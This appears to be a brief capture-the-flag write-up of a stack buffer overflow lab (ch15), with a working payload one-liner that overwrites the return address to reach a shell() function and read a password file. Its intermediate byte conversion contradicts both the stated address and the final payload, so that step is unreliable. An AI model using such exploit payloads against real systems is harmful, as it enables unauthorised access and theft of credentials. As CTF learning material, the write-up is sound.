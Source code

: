 # Stack buffer overflow basic 2 Write up

We see that this is an example where we will want to use the buffer to overflow the return address of the stack too the address of our `shell()` function.

We first need to get the exact number of bytes for our buffer, then append our payload onto it after that.


We also know that the computer is little endian, so we will need to enter our return address backwards.

```sh

(python -c 'print("a"*128 + OUR_ADDRESS_HERE)'; cat -) | ./ch15

```

Using `objdump -d ch15`, we see that the address of the `shell` function is at `0x08048516`. Using this information, we can now design our payload:

\x08\x04\x85\x15 -> big endian

turns into

\x15\x85\x04\x08 -> little endian
```sh

(python -c 'print("a"*128 + "\x16\x85\x04\x08")'; cat -) | ./ch15

```

and we get the password after using our new shell and doing `cat .passwd`
